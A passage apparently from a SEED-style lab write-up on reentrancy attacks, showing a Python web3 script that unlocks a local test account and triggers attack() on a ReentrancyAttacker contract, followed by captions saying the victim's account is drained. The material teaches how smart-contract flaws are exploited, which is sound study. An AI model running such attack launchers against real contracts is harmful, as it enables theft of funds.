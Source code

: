 ```py
from web3 import Web3
import SEEDWeb3
import os

web3 = SEEDWeb3.connect_to_geth_poa('http://10.151.0.71:8545')

sender_account = web3.eth.accounts[1]
web3.geth.personal.unlockAccount(sender_account, "admin")

abi_file      = "../contract/ReentrancyAttacker.abi"
attacker_addr = '0xe66e55BC1Dd18120cf7a8cc6791F64Fe0AF1bA12'

# Launch the attack
contract_abi  = SEEDWeb3.getFileContent(abi_file)
contract = web3.eth.contract(address=attacker_addr, abi=contract_abi)
tx_hash  = contract.functions.attack().transact({ 
                    'from':  sender_account,
                    'value': Web3.toWei('1', 'ether')
                })
print("Transaction sent, waiting for block ...")
tx_receipt = web3.eth.wait_for_transaction_receipt(tx_hash)
print("Transaction Receipt: {}".format(tx_receipt))
```

The following images show what happens when we execute the attack:

![Launching the attack](images/image6.PNG)

![Victim's account is drained](images/image7.PNG)
